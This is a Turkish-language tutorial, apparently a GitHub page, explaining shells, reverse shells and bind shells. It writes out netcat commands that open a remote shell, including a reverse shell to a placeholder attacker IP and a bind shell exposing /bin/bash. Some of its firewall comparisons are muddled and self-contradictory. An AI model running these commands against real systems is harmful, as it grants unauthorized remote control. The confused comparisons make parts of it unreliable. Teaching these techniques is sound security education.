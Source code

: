 #### Shell nedir ? 

**Shell**, bir işletim sisteminde kullanıcı ile çekirdek (kernel) arasındaki iletişimi sağlayan, komutları yazıp çalıştırarak sistemle etkileşimde bulunmamızı sağlayan bir programdır.

En yaygın shell türleri 
1. Bash 
2. Zsh 
3. Fish 

### **Reverse Shell Nedir?**

**Reverse Shell**, bir hedef sistemin saldırganın bilgisayarına bağlanmasını sağlayan bir bağlantı türüdür. Yani, hedef sistem, dışarıya doğru bir bağlantı açar ve bu bağlantı üzerinden saldırganın komutlarını çalıştırır. Bu tür bir bağlantı, hedef sistemin genellikle dışa kapalı olduğu ve dış bağlantı kuramadığı durumlar için kullanışlıdır. Saldırgan, kendi bilgisayarında belirli bir portu dinlerken, hedef sistem bu portu bulup bağlanarak komutları alır ve çalıştırır.

**Çalışma Prensibi:**

1. **Saldırgan Tarafı:** Saldırgan, hedef sistemin bağlanacağı bir port üzerinde dinleme yapar (örneğin, 4444 numaralı port).
2. **Hedef Tarafı:** Hedef sistemdeki kötü amaçlı yazılım ya da komut dosyası çalıştırıldığında, bu yazılım hedef sistemin belirttiği port üzerinden saldırganın bilgisayarına bağlanır.
3. **Bağlantı Kurulması:** Bağlantı kurulduktan sonra, saldırgan hedef sistem üzerinde komutlar çalıştırabilir.

**Örnek Kullanım:** Saldırgan, kendi bilgisayarında aşağıdaki komutla dinleme yapar:

```
nc -lvnp 4444
```


Hedef sistemde ise, aşağıdaki komutla bağlantı kurulur:

```
nc -e /bin/bash saldırganın_ip 4444
```

Bu şekilde, hedef sistem saldırganın bilgisayarına bağlanır ve saldırgan hedef sistemi kontrol edebilir.

---

### **Bind Shell Nedir?**

**Bind Shell**, hedef sistemin kendisinin bir port açarak, dışarıdan gelen bağlantılara cevap verdiği bir bağlantı türüdür. Bu türde, hedef sistem belirli bir port üzerinde "dinlemeye başlar" ve saldırgan bu port üzerinden hedef sisteme bağlanarak komutları çalıştırır. Burada hedef sistem, dışarıdan gelen bağlantıları kabul eder ve saldırgan bu portu kullanarak hedef sistemi kontrol eder.

**Çalışma Prensibi:**

1. **Hedef Tarafı:** Hedef sistem, belirli bir portu (örneğin, 4444) açarak dinlemeye başlar.
2. **Saldırgan Tarafı:** Saldırgan, hedef sistemin IP adresi ve dinleyen portunu öğrenir ve bu porta bağlanarak komutlar gönderir.
3. **Bağlantı Kurulması:** Saldırgan bağlantı kurduktan sonra, hedef sistem üzerinde komutlar çalıştırabilir.

**Örnek Kullanım:** Hedef sistemde, aşağıdaki komutla bir port açılır:

```
nc -lvp 4444 -e /bin/bash
```

Saldırgan ise, hedef sisteme bağlanmak için şu komutu kullanır:

```
nc hedef_ip 4444
```

Bu durumda, hedef sistemin belirli bir portu üzerinde bağlanılacak bir shell açılmış olur.

---

### **Reverse Shell ve Bind Shell Arasındaki Farklar:**

1. **Bağlantı Yönü:**
    - **Reverse Shell:** Hedef sistem, saldırganın bilgisayarına bağlanır.
    - **Bind Shell:** Hedef sistem bir port açar ve dışarıdan gelen bağlantıları kabul eder.
2. **Hedef Sistemin Bağlantısı:**
    - **Reverse Shell:** Hedef sistem dışarıya bağlantı kurma yeteneğine sahip olmalıdır (internete çıkabilmeli).
    - **Bind Shell:** Hedef sistemin dışa açık bir portu olmalıdır. Saldırgan bu port üzerinden hedef sisteme bağlanır.
3. **Güvenlik Duvarı ve Filtreleme:**
    - **Reverse Shell:** Hedef sistemin dışa doğru bağlantı kurmasına izin veren bir güvenlik duvarı ya da ağ yapılandırması olması gerekir. Bu, hedef sistemin çoğu zaman güvenlik duvarından geçmesine olanak tanır.
    - **Bind Shell:** Hedef sistem, dışarıya bağlanabilen bir port açmalıdır. Güvenlik duvarları, genellikle dışarıya açılan portları engeller, bu yüzden bind shell kullanmak daha zor olabilir.
4. **Güvenlik Testleri ve Uygulamalar:**
    - **Reverse Shell:** Daha çok hedef sistemin güvenlik duvarlarını geçmek için kullanılır. Çoğu zaman, bir saldırgan hedef sistemin dışarıya bağlantı kurmasına olanak tanıyacak şekilde kötü amaçlı yazılım çalıştırarak reverse shell kullanır.
    - **Bind Shell:** Hedef sistemin dışa açılabilen portları varsa, bind shell kullanılarak saldırgan bu port üzerinden bağlanabilir. Bu, özellikle güvenlik duvarlarının dışa bağlanmayı engellediği durumlar için uygun değildir.
5. **Kullanım Alanları:**
    - **Reverse Shell:** Çoğunlukla, hedef sistemin dış bağlantı kurması engellenmiş olsa bile, saldırganın uzaktan erişim sağlaması gereken durumlarda kullanılır.
    - **Bind Shell:** Hedef sistemin dış bağlantıya açık olduğu ve dışarıya bağlanmaya gerek kalmadığı durumlarda kullanılır.

---

Sonuç olarak, **Reverse Shell** ve **Bind Shell** birbirinden farklı çalışma şekilleriyle, saldırganların hedef sistemlere erişim sağlamasına yardımcı olan iki önemli tekniktir. Reverse shell, genellikle dışa kapalı sistemlerde tercih edilirken, bind shell hedef sistemin dışa açık portları olduğu durumlarda kullanılır.